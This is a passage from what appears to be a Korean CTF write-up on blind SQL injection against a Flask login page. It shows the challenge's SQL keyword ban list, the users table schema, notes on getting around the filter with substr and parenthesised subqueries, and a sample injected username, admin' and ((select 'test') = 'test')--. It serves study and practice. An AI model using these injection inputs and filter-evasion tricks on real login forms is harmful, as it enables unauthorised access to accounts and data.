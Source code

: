 ```python
        return redirect('/')

    if request.method == 'GET':
        return render_template('login.html', msg=None)
```

<br>

해당 필터링 문자열에서 보면 blind에서 자주 사용하는 substring이 보이는데 substr을 사용하면 될 것 같다. 그리고 테이블 구조도 init.sql에서 보면 users 테이블에 각 컬럼이 username과 password로 되어 있는 것을 알 수 있다. 일단 패스워드 쿼리 부분에서 () 문자로 묶고 하면 될 거 같은데 table, <, > 를 우회해야 한다.

```python
SQL_BAN_LIST = [
    'update', 'extract', 'lpad', 'rpad', 'insert', 'values', '~', ':', '+',
    'union', 'end', 'schema', 'table', 'drop', 'delete', 'sleep', 'substring',
    'database', 'declare', 'count', 'exists', 'collate', 'like', '!', '"',
    '$', '%', '&', '+', '.', ':', '<', '>', 'delay', 'wait', 'order', 'alter'
]
```

```sql
USE `reset_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  username varchar(128) not null,
  password varchar(128) not null
);
```

<br>
blind sqli 가 들어갈 부분은 아래 쿼리처럼 admin 뒤에 select 문으로 해서 만들면 될 것 같다.

```sql
SELECT * FROM users WHERE username = 'admin' and ((select 'test') = 'test')-- ' AND password = '123'

//
username = admin' and ((select 'test') = 'test')-- 
password = 123
```
